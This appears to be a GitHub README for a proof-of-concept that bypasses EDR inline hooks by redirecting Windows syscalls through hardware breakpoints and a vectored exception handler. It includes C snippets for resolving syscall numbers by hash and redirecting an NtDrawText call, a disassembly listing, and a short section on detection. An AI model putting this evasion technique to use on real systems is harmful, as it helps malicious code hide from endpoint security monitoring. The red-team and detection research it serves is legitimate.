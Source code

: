 # MutationGate
MutationGate is a new approach to bypass EDR's inline hooking by utilizing hardware breakpoint to redirect the syscall.

It works by calling an unhooked NTAPI and replacing the unhooked NTAPI's SSN with hooked NTAPI's. In this way, the syscall is redirected to the hooked NTAPI's, and the inline hook can be bypassed without loading the 2nd ntdll module or modifying bytes within loaded ntdll's memory space. 

The provided project is only a `POC`, not a comprehensive implementation. For instance, you could use this approach to set hardware breakpoints for a set of functions. 

The function can also be WIN32API. For instance, we can set the 1st hbp at `DrawText` to redirect the execution to `NtDrawText`, and the 2nd hbp replaces the SSN saved in RAX. In this way, module `kernel32.dll` is not skipped, and the call stack looks more legitimate. 

## Description
EDR tends to set inline hooks for various NTAPI, especially those are usually leveraged in malware, such as `NtAllocVirtualMemory`, `NtOpenProcess`, etc. While other NTAPI that are not usually leveraged in malware tend not to have inline hook, such as `NtDrawText`. It is very unlikely that an EDR set inline hook for all NTAPI.   

Assume NTAPI `NtDrawText` is not hooked, while NTAPI `NtQueryInformationProcess` is hooked, the steps are as follows:

1. Get the address of `NtDrawText`. It can be achieved by utilizing `GetModuleHandle` and `GetProcAddress` combination, or a custom implementation of them via PEB walking.
```c
  pNTDT = GetFuncByHash(ntdll, 0xA1920265);	//NtDrawText hash
  pNTDTOffset_8 = (PVOID)((BYTE*)pNTDT + 0x8);	//Offset 0x8 from NtDrawText
```
2. Prepare arguments for `NtQueryInformationProcess`
3. Set a hardware breakpoint at `NtDrawText+0x8`, when the execution reaches this address, SSN of `NtDrawText` is saved in RAX, but syscall is not called yet.

```windbg
0:000> u 0x00007FFBAD00EB68-8
ntdll!NtDrawText:
00007ffb`ad00eb60 4c8bd1          mov     r10,rcx
00007ffb`ad00eb63 b8dd000000      mov     eax,0DDh
00007ffb`ad00eb68 f604250803fe7f01 test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffb`ad00eb70 7503            jne     ntdll!NtDrawText+0x15 (00007ffb`ad00eb75)
00007ffb`ad00eb72 0f05            syscall
00007ffb`ad00eb74 c3              ret
00007ffb`ad00eb75 cd2e            int     2Eh
00007ffb`ad00eb77 c3              ret
```
4. Retrieve the SSN of `NtQueryInformationProcess`. Inside the exception handler, update RAX with NtQueryInformationProcess' SSN. I.e., the original SSN was replaced.
```c
...<SNIP>...
uint32_t GetSSNByHash(PVOID pe, uint32_t Hash) 
{
	PBYTE pBase = (PBYTE)pe;
	PIMAGE_DOS_HEADER	pImgDosHdr = (PIMAGE_DOS_HEADER)pBase;
	PIMAGE_NT_HEADERS	pImgNtHdrs = (PIMAGE_NT_HEADERS)(pBase + pImgDosHdr->e_lfanew);
	IMAGE_OPTIONAL_HEADER	ImgOptHdr = pImgNtHdrs->OptionalHeader;
	DWORD exportdirectory_foa = RvaToFileOffset(pImgNtHdrs, ImgOptHdr.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PIMAGE_EXPORT_DIRECTORY pImgExportDir = (PIMAGE_EXPORT_DIRECTORY)(pBase + exportdirectory_foa);	//Calculate corresponding offset
	PDWORD FunctionNameArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNames));
	PDWORD FunctionAddressArray = (PDWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfFunctions));
	PWORD  FunctionOrdinalArray = (PWORD)(pBase + RvaToFileOffset(pImgNtHdrs, pImgExportDir->AddressOfNameOrdinals));

	for (DWORD i = 0; i < pImgExportDir->NumberOfFunctions; i++)
	{
		CHAR* pFunctionName = (CHAR*)(pBase + RvaToFileOffset(pImgNtHdrs, FunctionNameArray[i]));
		DWORD Function_RVA = FunctionAddressArray[FunctionOrdinalArray[i]];
		if (Hash == ROR13Hash(pFunctionName))
		{
			//printf("[ %x ] FOUND API -\t NAME: %s -\t RVA: 0x%x  -\t ORDINAL: %x\n", i, pFunctionName, Function_RVA, FunctionOrdinalArray[i] + 1);
			void *ptr = malloc(10);
			if (ptr == NULL) {
				perror("malloc failed");
				return -1;
			}
			unsigned char byteAtOffset5 = *((unsigned char*)(pBase + RvaToFileOffset(pImgNtHdrs, Function_RVA)) + 4);
			//printf("Syscall number of function %s is: 0x%x\n", pFunctionName,byteAtOffset5);	//0x18
			free(ptr);
			return byteAtOffset5;
		}
	}
	return 0x0;
}
...<SNIP>...
```
5. Since we called `NtDrawText` but with `NtQueryInformationProcess`' arguments, the call should be failed. However, since we changed the SSN, the syscall is successful. 
```c
  fnNtQueryInformationProcess pNTQIP = (fnNtQueryInformationProcess)pNTDT;
  NTSTATUS status = pNTQIP(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), NULL);	
```


## Example

![example](screenshot/poc.png)

In this example, NtDrawtext's SSN is `0xdd`, `NtQueryInformationProcess`' SSN is `0x19`, the address of NtDrawText is `0x00007FFBAD00EB60`

The call is made to NtDrawText's address, but with NtQueryInformationProcess. Since the SSN is changed from `0xdd` to `0x19`, the syscall is successful.

## Disclaimer
1. MutationGate is not an extension or variant of various Gate. Because those Gate focus more on retrieving SSN of NTAPI, MutationGate focuses on bypassing the inline hook in NTAPI.
2. MutationGate is able to bypass inline hook in NTAPI, however, the individual technique does not guarantee to bypass EDR, because EDR has multiple detection dimensions, inline hook is one of them.
3. The project is a POC, not a complete and comprehensive implementation.



## Advantages of MutationGate Approach
So far, some classic and common approaches to bypass EDR's inline hook include but are not limited to the following approaches:
1. Load the 2nd ntdll module
2. Copy a fresh ntdll's text section to overwrite hooked ntdll's text section
3. Overwrite hooked codes(syscall stub) with fresh code
4. More...

The above techniques involve the modification of loaded ntdll, or loading of the 2nd ntdll. These behaviors could be detected by EDR. 

While MutationGate is not the only approach that untouches loaded ntdll, it does have the advantage of not modifying the loaded ntdll module, which decreases the possibility of getting detected. 

And, it is very simple, no need to modify other registers, etc.


## Detection
It is possible to detect MutationGate technique.

1. The `AddVectoredExceptionHandler` call could look suspicious in a normal program.
2. In the POC, NTAPI is called directly, which could be weird in a normal program. However, it can be resolved by adding 1 more hardware breakpoint at `DrawText`, directing the execution to `NtDrawText` and triggering the 2nd hardware breakpoint that replaces SSN.
3. Call stack in kernel space could reveal clues.

## Credits and References
<https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/>

<https://redops.at/en/blog/syscalls-via-vectored-exception-handling>

<https://gist.github.com/CCob/fe3b63d80890fafeca982f76c8a3efdf>

<https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html>

Maldev Academy

ChatGPT

## Other Approaches Utilized Hardware Breakpoint
<https://github.com/Dec0ne/HWSyscalls>

<https://github.com/rad9800/TamperingSyscalls>

<https://github.com/RedTeamOperations/VEH-PoC>
